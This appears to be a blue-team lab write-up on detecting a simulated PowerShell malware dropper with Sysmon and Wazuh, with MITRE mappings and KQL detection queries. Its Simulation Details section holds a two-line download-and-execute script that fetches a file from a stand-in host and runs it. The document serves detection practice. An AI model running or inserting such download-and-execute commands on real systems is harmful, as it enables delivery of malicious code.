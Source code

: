 # Malware Detection Simulation Summary

## Attack Overview
- **Description**: Simulated a malware dropper using PowerShell to download a file (`suspicious.exe`) from `example.com` and attempt execution, mimicking malicious behavior.
- **MITRE ATT&CK**: [T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/), [T1059.001 - PowerShell](https://attack.mitre.org/techniques/T1059/001/)
- **Objective**: Detect unauthorized file downloads and process execution.
- **Date and Time**: June 13, 2025, ~10:23 PM IST

## Simulation Details
- **Environment**: Windows 10 VM (hostname: `DESKTOP-FF0MPJM`, Wazuh agent: `SIEM-Target-Windows`).
- **Sysmon Config**: SwiftOnSecurity `sysmonconfig-export.xml`.
- **Simulation Script**:
  ```powershell
  Invoke-WebRequest -Uri "https://example.com" -OutFile "C:\Users\Public\suspicious.exe"
  Start-Process "C:\Users\Public\suspicious.exe"
  ```
- **Execution**: Ran `malware_detection.ps1` in PowerShell as a standard user.
- **Expected Events**:
  - **Sysmon Event ID 1**: `powershell.exe` and `suspicious.exe` process creation.
  - **Sysmon Event ID 3**: Network connection to `example.com`.

## Detection in Wazuh
- **Wazuh Rule**: Sysmon rule `61613` (Event ID 1) and `61605` (Event ID 3).
- **Search Query** (Wazuh Dashboard > Security Events > Discover):
  ```kql
  win.eventdata.image:powershell.exe OR win.eventdata.image:suspicious.exe
  ```
- **Findings**:
  - Alerts for `event.code:1` (process creation) and `event.code:3` (network connection).
  - Example Alert Fields:
    - `win.eventdata.image: powershell.exe`
    - `win.eventdata.commandLine: Invoke-WebRequest`
    - `timestamp: 2025-06-13T16:53:XXZ`
- **Screenshots**:
  - `screenshots\wazuh_alerts_malware.png`: Wazuh alerts.
  - `screenshots\event_viewer_sysmon.png`: Sysmon Event ID 1.
- **Logs**:
  - `logs\sysmon_events.csv`: Sysmon events.
  - `logs\wazuh_agent_filtered.log`: Wazuh agent logs.

## Learnings
- **Blue Teaming Insight**: PowerShell is a common vector for malware delivery. Sysmon’s process and network logging are essential for detection.
- **Challenges**: Distinguishing malicious from legitimate downloads requires context (e.g., file path, destination IP).
- **Technical Growth**: Learned to analyze Sysmon events and query Wazuh for process/network activity.
- **Best Practice**: Enable PowerShell logging and monitor non-standard file paths.

## Detection Logic Query
```kql
(event.code:1 OR event.code:3) AND (win.eventdata.image:powershell.exe OR win.eventdata.image:suspicious.exe) AND @timestamp:>=now-10m
```
- **Purpose**: Detects malware-related process creation and network activity.
- **Outcome**: Identifies suspicious PowerShell activity.

## References
- [MITRE ATT&CK: Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
- [Wazuh Documentation: Sysmon Integration](https://documentation.wazuh.com/current/user-manual/capabilities/sysmon.html)
- [SwiftOnSecurity Sysmon Config](https://github.com/SwiftOnSecurity/sysmon-config)

## Attachments
- **Logs**: `logs\sysmon_events.csv`, `logs\wazuh_agent_filtered.log`
- **Screenshots**: `screenshots\wazuh_alerts_malware.png`, `screenshots\event_viewer_sysmon.png`